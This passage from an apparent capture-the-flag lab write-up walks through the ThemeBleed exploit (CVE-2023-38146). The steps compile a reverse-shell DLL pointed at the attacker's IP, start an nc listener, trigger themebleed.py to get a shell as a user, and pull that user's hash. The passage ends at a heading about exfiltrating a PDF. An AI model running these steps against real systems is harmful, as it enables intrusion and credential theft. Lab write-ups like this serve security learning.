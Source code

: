 -   **Put our attack IP in the relevant pat**:
    -   On the right hand side find the `main.cpp` file ans scroll down to lines 32/34
        -   We enter our Attack Machines IP &amp; Port number we want to listen on.
        -   Ensure "autoReconnect" is set to `false`
    -   {{< figure src="/ox-hugo/2024-11-04-180155_.png" >}}

-   **Set to release per instructions**:
    -   {{< figure src="/ox-hugo/2024-11-04-180354_.png" >}}

-   **Build the solution**:
    -   {{< figure src="/ox-hugo/2024-11-04-180428_.png" >}}
    -   +Note+: Building the solution is just a way to saying "Compile the exploit"

-   **The file should be located in**:
    -   `C:\Users\[YourUserName]\source\repos\ThemeBleedReverseShellDLL\x64\Release\ThemeBleeedReverseShell.dll`


### Running the ThemeBleed Exploit to get a reverse shell: {#running-the-themebleed-exploit-to-get-a-reverse-shell}

-   **Switching back to the main repo, we clone that**:
    -   `git clone https://github.com/Jnnshschl/CVE-2023-38146.git`

-   **Moving the compiled reverse shell to the relevant folder**:
    -   Reading the instructions we need to move the compiled `ThemeBleeedReverseShell.dll` file to the `tb` folder in the main repo &amp; rename it to `Aero.msstyles_vrf_evil.dll`
        -   {{< figure src="/ox-hugo/2024-11-04-181130_.png" >}}
        -   +Note+: On the repo it says to move it to `td` but it's actually called `tb`

-   **Next I start my nc listner**:
    -   `rlwrap -cAr nc -nvlp 4711`

-   **Trigger the exploit**:
    -   `python3 themebleed.py -r [MYAttackMachine] --no-dll`

-   **It connects and we get our revers shell**:
    -   {{< figure src="/ox-hugo/2024-11-04-181233_.png" >}}
    -   As we can see it also appears to dump the hash for `sam.emerson` and connects as them I tried to crack this with `rockyou.txt` but no hits.


### Enumerating as sam.emerson: {#enumerating-as-sam-dot-emerson}

-   **Get the user flag**:
    -   {{< figure src="/ox-hugo/2024-11-04-181935_.png" >}}

-   **Looking in documents we find a CVE-2023-28252 pdf and a file called** `watchdog.ps1`
    -   {{< figure src="/ox-hugo/2024-11-04-182331_.png" >}}
        -   What looks interesting is the `CVE-2023-28252_Summary.pdf` lets grab that.
        -   +Note+: I checked out the `watchdog.ps1` script but it's just how the box works by checking for uploaded themes periodically (every 15 seconds)


### Exfiltrating the CVE-2023-28252_Summary.pdf using base64 encoding: {#exfiltrating-the-cve-2023-28252-summary-dot-pdf-using-base64-encoding}
